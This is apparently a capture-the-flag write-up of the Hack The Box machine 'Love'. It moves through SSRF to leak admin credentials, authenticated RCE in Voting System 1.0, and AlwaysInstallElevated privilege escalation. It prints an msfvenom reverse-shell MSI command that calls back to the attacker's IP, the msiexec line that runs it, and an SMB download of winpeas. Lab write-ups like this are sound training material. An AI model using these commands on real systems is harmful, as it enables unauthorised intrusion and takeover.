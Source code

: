 ```yaml
---
title: HTB-Love
draft: false
tags:
  - htb
  - windows
  - ssrf
  - voting-system
  - alwaysinstallelevated
  - msfvenom
  - easy
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/Love.png)



## Information Gathering
### Rustscan

Rustscan finds bunch of ports open. Some of them I am not sure what they are used for, I would have to look in to it:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/love]
└─$ rustscan --addresses 10.10.10.239 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
<snip>
Host is up, received syn-ack (0.37s latency).
Scanned at 2024-04-24 13:04:31 EDT for 3s

PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
443/tcp   open  https        syn-ack
445/tcp   open  microsoft-ds syn-ack
3306/tcp  open  mysql        syn-ack
5000/tcp  open  upnp         syn-ack
5040/tcp  open  unknown      syn-ack
5985/tcp  open  wsman        syn-ack
5986/tcp  open  wsmans       syn-ack
7680/tcp  open  pando-pub    syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49668/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack
49670/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.68 seconds
```

## Enumeration
### SMB - TCP 445

Null login is not allowed:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image.png)


### HTTP(s) - TCP 80 & 443

Website shows a login portal for Voting System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-1.png)

Searchsploit finds several exploits for Voting System. I will look more into this later:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-3.png)

After directory bruteforcing and enumeration, I found several more paths on the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-4.png)

`/admin` is definetly an interesting path.


HTTPs shows forbidden page:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-2.png)

However I can still obtain subdomain information from it:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-5.png)

## staging.love.htb - TCP 80

`http://staging.love.htb` shows a different page from Voting System:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-7.png)

Clicking on **Demo** directs me to **beta.php** where I can submit file url for scanning:

`http://staging.love.htb/beta.php`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-8.png)

I will try making connection to my local Kali machine:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-9.png)

You can see that connection is being made from the website:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-10.png)

I tried uploading webshell but it won't work since the webapp seems to be not reading the php script:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-11.png)

## Shell as phoebe
### SSRF

Instead of uploading web shell, I wil try accessing internal service running on port 5000:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-12.png)

I can access port 5000 through SSRF and read password for the admin: **@LoveIsInTheAir!!!!**

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-13.png)

Weirdly, using the credential won't work on login portal:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-14.png)

However, through `/admin` page, I can successfully sign-in:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-15.png)


### Authenticated RCE

Voting system 1.0 seems to be vulnerable to Authenticated RCE. 


After downloading [payload](https://www.exploit-db.com/exploits/49445), I will edit my setting as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-16.png)

I will also edit the vulnerable to url as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-17.png)

With the netcat listener running, I will run the payload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-20.png)

On my netcat listener, I have reverse shell spawned as **phoebe**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-18.png)


## Privesc: phoebe to Administrator
### AlwaysInstallElevated

After starting smber server through `impacket-smbserver share $(pwd) -smb2support` on the directory where there is winpeas.exe, I will download winpeas to target machine through `copy \\10.10.14.21\share\winpeas.ps1 winpeas.ps1`.

WinPEAS finds AlwaysInstallElevated running:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-21.png)

AlwaysInstallElevated is a setting in the Windows registry that, when enabled, allows non-administrative users to install programs with elevated privileges. This setting is intended for system administrators who want to ensure that certain programs are always installed with administrative rights, regardless of the user's permissions.

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-22.png)

I will create payload that will make a reverse shell connection using msfvenom:

`msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=1338 -f msi -o rev_shell.msi`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-24.png)

I will the run the payload msi with netcat listener running on my local Kali machine:

`msiexec /quiet /qn /i rev_shell.msi`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-25.png)

Now I have a shell as the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/love/image-23.png)

## References
- https://www.exploit-db.com/exploits/49445
- https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated
- https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/